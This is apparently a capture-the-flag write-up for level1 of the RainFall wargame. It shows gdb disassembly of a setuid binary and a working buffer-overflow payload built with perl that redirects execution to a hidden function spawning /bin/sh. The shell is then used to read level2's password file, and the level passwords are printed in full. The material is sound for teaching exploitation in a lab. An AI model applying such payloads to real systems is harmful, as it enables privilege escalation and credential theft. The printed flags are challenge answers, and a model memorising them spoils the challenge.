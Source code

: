 # Level1 - Buffer overflow

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level1 | `1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a` |
| level2 | `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77` |

## Steps to resolve on VM

1. Connect to `level1` user

```shell
ssh level1@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

Notice there is a binary with level2 setuid.

2. Debug level1

Execute level1

```shell
./level1
> (stdin)
```

There is only a prompt. Lets disassemble the code.

```shell
gdb level1
(gdb) disas main

> 0x08048480 <+0>:     push   %ebp
  0x08048481 <+1>:     mov    %esp,%ebp
  0x08048483 <+3>:     and    $0xfffffff0,%esp
  0x08048486 <+6>:     sub    $0x50,%esp                ; 0x50 = 80
  0x08048489 <+9>:     lea    0x10(%esp),%eax
  0x0804848d <+13>:    mov    %eax,(%esp)
  0x08048490 <+16>:    call   0x8048340 <gets@plt>      ; call gets
  0x08048495 <+21>:    leave
  0x08048496 <+22>:    ret
```

Indeed, there is a `gets` syscall only.

```shell
(gdb) info functions

> (...)
  0x08048420  frame_dummy
  0x08048444  run
  0x08048480  main
  (...)
```

There is others functions. Lets see the function `run`

```shell
(gdb) disas run

> 0x08048444 <+0>:	push   %ebp
  0x08048445 <+1>:	mov    %esp,%ebp
  0x08048447 <+3>:	sub    $0x18,%esp
  0x0804844a <+6>:	mov    0x80497c0,%eax               ; 0x80497c0: stdout
  0x0804844f <+11>:	mov    %eax,%edx
  0x08048451 <+13>:	mov    $0x8048570,%eax              ; 0x8048570: "Good... Wait what?\n"
  0x08048456 <+18>:	mov    %edx,0xc(%esp)
  0x0804845a <+22>:	movl   $0x13,0x8(%esp)              ; 0x13 = 19
  0x08048462 <+30>:	movl   $0x1,0x4(%esp)               ; 0x1  = 1
  0x0804846a <+38>:	mov    %eax,(%esp)
  0x0804846d <+41>:	call   0x8048350 <fwrite@plt>       ; call fwrite("Good... Wait what?\n", 1, 19, stdout)
  0x08048472 <+46>:	movl   $0x8048584,(%esp)            ; 0x8048584: "/bin/sh"
  0x08048479 <+53>:	call   0x8048360 <system@plt>       ; call system("/bin/sh")
  0x0804847e <+58>:	leave
  0x0804847f <+59>:	ret
```

The function `run` contains a syscall `system` that executes `"/bin/sh"` and creates a subshell. As the binary `level1` is executed with level2 setuid, this function is interesting.

Unfortunately, the function `run` is not called in the main. We have to find a way to execute it.

3. Buffer overflow

We will use the buffer overflow attack.

We will take advantage of the buffer of `gets` function to execute the funtion `run`.

But first we need to know what is the buffer size. We noticed that 80bits (0x50) have been allocated. After many tries, we noticed

```shell
./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa   # 75 chars

level1@RainFall:~$ ./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  # 76 chars
> Illegal instruction (core dumped)

level1@RainFall:~$ ./level1
(stdin) aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa # 77 chars
> Segmentation fault (core dumped)
```

We got a error for "illegal instruction" with 76 chars, and a segfault with 77 chars. We can deduct the buffer size wich is 76 with the ending '\0'.
The 4 bits remaining are reserved for EIP register that contains the next instruction.

Now we know the buffer size, we have to append to address of our function.

The address of `run` is: 0x08048444

```shell
(gdb) show endian

> The target endianness is set automatically (currently little endian)
```

It means we have to reverse the address. `0x08048444 => 0x44840408`

Now we have everything we need, we can create the overflow.

```shell
perl -e 'print "a" x 76 . "\x44\x84\x04\x08"' 2> /dev/null | ./level1

> Good... Wait what?
> Segmentation fault (core dumped)
```

A string appears here. It means the overflow works and the function `run` has been executed.
We have to keep the stdin open.

```shell
export OVERFLOW=`perl -e 'print "a" x 76 . "\x44\x84\x04\x08"' 2> /dev/null`
(echo $OVERFLOW && cat) | ./level1

> Good... Wait what?
> (stdin) cat /home/user/level2/.pass
>> 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

---

## Sources

### Buffer overflow

- [How to write a buffer overflow exploit](https://jvns.ca/blog/2013/10/28/day-17-buffer-overflows/)
- [Exploit a basic buffer overflow](https://myexperiments.io/exploit-basic-buffer-overflow.html)

### ASM explications

- [Stack buffer size is different between C and ASM](https://reverseengineering.stackexchange.com/questions/17075/stack-buffer-size-is-different-between-c-and-asm)

### Shell

- [Man gets](https://linux.die.net/man/3/gets)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man system](https://linux.die.net/man/3/system)
- [Piping data to a process's stdin without causing EOF afterward](https://unix.stackexchange.com/questions/103885/piping-data-to-a-processs-stdin-without-causing-eof-afterward)

